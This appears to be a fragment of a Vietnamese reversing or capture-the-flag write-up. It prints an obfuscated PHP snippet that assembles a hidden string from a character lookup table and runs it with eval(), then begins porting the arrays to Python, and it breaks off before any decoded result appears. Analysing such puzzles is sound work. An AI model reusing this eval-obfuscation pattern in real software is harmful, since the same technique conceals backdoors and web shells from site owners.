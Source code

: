 ```
<?php $terms=array("M", "Z", "]", "p", "\\", "w", "f", "1", "v", "<", "a", "Q", "z", " ", "s", "m", "+", "E", "D", "g", "W", "\"", "q", "y", "T", "V", "n", "S", "X", ")", "9", "C", "P", "r", "&", "\'", "!", "x", "G", ":", "2", "~", "O", "h", "u", "U", "@", ";", "H", "3", "F", "6", "b", "L", ">", "^", ",", ".", "l", "$", "d", "`", "%", "N", "*", "[", "0", "}", "J", "-", "5", "_", "A", "=", "{", "k", "o", "7", "#", "i", "I", "Y", "(", "j", "/", "?", "K", "c", "B", "t", "R", "4", "8", "e", "|");$order=array(59, 71, 73, 13, 35, 10, 20, 81, 76, 10, 28, 63, 12, 1, 28, 11, 76, 68, 50, 30, 11, 24, 7, 63, 45, 20, 23, 68, 87, 42, 24, 60, 87, 63, 18, 58, 87, 63, 18, 58, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 17, 37, 63, 58, 37, 91, 63, 83, 43, 87, 42, 24, 60, 87, 93, 18, 87, 66, 28, 48, 19, 66, 63, 50, 37, 91, 63, 17, 1, 87, 93, 18, 45, 66, 28, 48, 19, 40, 11, 25, 5, 70, 63, 7, 37, 91, 63, 12, 1, 87, 93, 18, 81, 37, 28, 48, 19, 12, 63, 25, 37, 91, 63, 83, 63, 87, 93, 18, 87, 23, 28, 18, 75, 49, 28, 48, 19, 49, 0, 50, 37, 91, 63, 18, 50, 87, 42, 18, 90, 87, 93, 18, 81, 40, 28, 48, 19, 40, 11, 7, 5, 70, 63, 7, 37, 91, 63, 12, 68, 87, 93, 18, 81, 7, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 18, 17, 37, 0, 50, 5, 40, 42, 50, 5, 49, 42, 25, 5, 91, 63, 50, 5, 70, 42, 25, 37, 91, 63, 75, 1, 87, 93, 18, 1, 17, 80, 58, 66, 3, 86, 27, 88, 77, 80, 38, 25, 40, 81, 20, 5, 76, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 7, 88, 32, 45, 7, 90, 52, 80, 58, 5, 70, 63, 7, 5, 66, 42, 25, 37, 91, 0, 12, 50, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 48, 19, 7, 63, 50, 5, 37, 0, 24, 1, 87, 0, 24, 72, 66, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 1, 87, 93, 18, 11, 66, 28, 18, 87, 70, 28, 48, 19, 7, 63, 50, 5, 37, 0, 18, 1, 87, 42, 24, 60, 87, 0, 24, 17, 91, 28, 18, 75, 49, 28, 18, 45, 12, 28, 48, 19, 40, 0, 7, 5, 37, 0, 24, 90, 87, 93, 18, 81, 37, 28, 48, 19, 49, 0, 50, 5, 40, 63, 25, 5, 91, 63, 50, 5, 37, 0, 18, 68, 87, 93, 18, 1, 18, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 90, 87, 0, 24, 72, 37, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 48, 19, 40, 90, 25, 37, 91, 63, 18, 90, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 75, 70, 28, 48, 19, 40, 90, 58, 37, 91, 63, 75, 11, 79, 28, 27, 75, 3, 42, 23, 88, 30, 35, 47, 59, 71, 71, 73, 35, 68, 38, 63, 8, 1, 38, 45, 30, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 23, 75, 77, 1, 28, 1, 43, 52, 31, 19, 75, 81, 40, 30, 75, 1, 27, 75, 77, 35, 47, 59, 71, 71, 71, 73, 21, 4, 37, 51, 40, 4, 7, 91, 7, 4, 37, 77, 49, 4, 7, 91, 70, 4, 37, 49, 51, 4, 51, 91, 4, 37, 70, 6, 4, 7, 91, 91, 4, 37, 51, 70, 4, 7, 91, 49, 4, 37, 51, 6, 4, 7, 91, 91, 4, 37, 51, 70, 21, 47, 93, 8, 10, 58, 82, 59, 71, 71, 71, 82, 59, 71, 71, 29, 29, 47);$do_me="";for($i=0;$i<count($order);$i++){$do_me=$do_me.$terms[$order[$i]];}eval($do_me); ?>
```
- Có vẻ nó bị obfuscation code, mình sẽ sửa nó lại 1 tí
```
terms=["M", "Z", "]", "p", "\\", "w", "f", "1", "v", "<", "a", "Q", "z", " ", "s", "m", "+", "E", "D", "g", "W", "\"", "q", "y", "T", "V", "n", "S", "X", ")", "9", "C", "P", "r", "&", "\'", "!", "x", "G", ":", "2", "~", "O", "h", "u", "U", "@", ";", "H", "3", "F", "6", "b", "L", ">", "^", ",", ".", "l", "$", "d", "`", "%", "N", "*", "[", "0", "}", "J", "-", "5", "_", "A", "=", "{", "k", "o", "7", "#", "i", "I", "Y", "(", "j", "/", "?", "K", "c", "B", "t", "R", "4", "8", "e", "|"]
order=[59, 71, 73, 13, 35, 10, 20, 81, 76, 10, 28, 63, 12, 1, 28, 11, 76, 68, 50, 30, 11, 24, 7, 63, 45, 20, 23, 68, 87, 42, 24, 60, 87, 63, 18, 58, 87, 63, 18, 58, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 17, 37, 63, 58, 37, 91, 63, 83, 43, 87, 42, 24, 60, 87, 93, 18, 87, 66, 28, 48, 19, 66, 63, 50, 37, 91, 63, 17, 1, 87, 93, 18, 45, 66, 28, 48, 19, 40, 11, 25, 5, 70, 63, 7, 37, 91, 63, 12, 1, 87, 93, 18, 81, 37, 28, 48, 19, 12, 63, 25, 37, 91, 63, 83, 63, 87, 93, 18, 87, 23, 28, 18, 75, 49, 28, 48, 19, 49, 0, 50, 37, 91, 63, 18, 50, 87, 42, 18, 90, 87, 93, 18, 81, 40, 28, 48, 19, 40, 11, 7, 5, 70, 63, 7, 37, 91, 63, 12, 68, 87, 93, 18, 81, 7, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 18, 17, 37, 0, 50, 5, 40, 42, 50, 5, 49, 42, 25, 5, 91, 63, 50, 5, 70, 42, 25, 37, 91, 63, 75, 1, 87, 93, 18, 1, 17, 80, 58, 66, 3, 86, 27, 88, 77, 80, 38, 25, 40, 81, 20, 5, 76, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 7, 88, 32, 45, 7, 90, 52, 80, 58, 5, 70, 63, 7, 5, 66, 42, 25, 37, 91, 0, 12, 50, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 48, 19, 7, 63, 50, 5, 37, 0, 24, 1, 87, 0, 24, 72, 66, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 1, 87, 93, 18, 11, 66, 28, 18, 87, 70, 28, 48, 19, 7, 63, 50, 5, 37, 0, 18, 1, 87, 42, 24, 60, 87, 0, 24, 17, 91, 28, 18, 75, 49, 28, 18, 45, 12, 28, 48, 19, 40, 0, 7, 5, 37, 0, 24, 90, 87, 93, 18, 81, 37, 28, 48, 19, 49, 0, 50, 5, 40, 63, 25, 5, 91, 63, 50, 5, 37, 0, 18, 68, 87, 93, 18, 1, 18, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 90, 87, 0, 24, 72, 37, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 48, 19, 40, 90, 25, 37, 91, 63, 18, 90, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 75, 70, 28, 48, 19, 40, 90, 58, 37, 91, 63, 75, 11, 79, 28, 27, 75, 3, 42, 23, 88, 30, 35, 47, 59, 71, 71, 73, 35, 68, 38, 63, 8, 1, 38, 45, 30, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 23, 75, 77, 1, 28, 1, 43, 52, 31, 19, 75, 81, 40, 30, 75, 1, 27, 75, 77, 35, 47, 59, 71, 71, 71, 73, 21, 4, 37, 51, 40, 4, 7, 91, 7, 4, 37, 77, 49, 4, 7, 91, 70, 4, 37, 49, 51, 4, 51, 91, 4, 37, 70, 6, 4, 7, 91, 91, 4, 37, 51, 70, 4, 7, 91, 49, 4, 37, 51, 6, 4, 7, 91, 91, 4, 37, 51, 70, 21, 47, 93, 8, 10, 58, 82, 59, 71, 71, 71, 82, 59, 71, 71, 29, 29, 47]
do_me=""
```